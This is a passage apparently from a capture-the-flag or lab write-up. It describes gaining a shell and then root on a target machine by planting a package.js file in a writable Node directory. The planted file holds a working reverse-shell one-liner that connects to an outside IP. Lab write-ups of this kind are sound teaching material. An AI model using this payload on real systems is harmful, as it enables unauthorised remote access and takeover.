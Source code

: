 It uses a `package.js` file from `/var/www/node`, a directory we have write access over as `www-data`. We can create a `package.js` file like this:

```javascript
require('child_process').exec("bash -c 'bash -i >& /dev/tcp/192.168.45.208/80 0>&1'")
```

Then, we can just wait for the shell to execute.&#x20;

<figure><img src="../../../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

The user is part of the `sudo` group, and it is trivial to become the `root` user:

<figure><img src="../../../.gitbook/assets/image (99) (5).png" alt=""><figcaption></figcaption></figure>

Rooted!
